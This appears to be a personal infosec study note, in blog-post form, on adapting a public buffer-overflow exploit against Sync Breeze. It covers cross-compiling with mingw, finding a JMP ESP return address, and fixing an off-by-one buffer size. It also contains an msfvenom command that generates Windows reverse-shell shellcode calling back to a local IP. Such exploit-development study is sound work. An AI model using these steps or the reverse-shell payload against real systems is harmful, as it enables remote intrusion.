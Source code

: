 ```yaml
---
layout: post
title: Examining Exploit Code
titledate: 09/08/23
tags: ["infosec","offsec", "exploit", "c"]
---
```


#### compiling c on linux

    $ sudo apt install mingw-w64
    i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe

when compiling we may run into missing header information 

    $ i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32

#### ip and port

the target or source ip address and port numbers may be hardcoded

#### chaning return address

  we may need to change the return address of the exploit depending on our target environment and what dlls are available to it

  there are a few methods to achieve this

  1. if possible recreate the target environment locally and use a debugger to determine this address - File > Attach to process > View > Executable modules and see what  dll modules are present
  2. search for public exploits with a similar setup - like a return address for a JMP ESP on win 10
  3. search for non-ASLR marked dlls

### Note: If we have access to the machine we can copy the DLLs we want to utilize over for priv escalation

#### shellcode 

since this is a static exploit - we will most likely need to regenerate shellcode for our specific use case / target environment
for example if we want a reverse shell for an x86 platform system with no bad characters we can use

    $ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"

#### debugging our exploit

after recompiling our exploit we can open our debugger with the application running press ctr+G and follow the JMP ESP address at our return address 0x10090c83, then we can set a breakpoint with F2 and then continue execution by pressing F9


![immun_1.png](../images/exploitation/immun_1.png)

#### execute exploit with wine

because we are running an executable we can use wine to run the exploit

    $ sudo wine syncbreeze_exploit.exe

  When we run the exploit we did not hit our breakpoint but instead hit a crash with the value of the EIP register pointing to 0x9010090c

#### fixing the code

the eip address is off one byte, when examining the exploit code we can see the buffer size is set to 780 the size required to overwrite the return address on the stack and control eip, however, further in the code when the exploit is built we can see there is a 0x00 null byte added, so we need to increase the size of the buffer to 781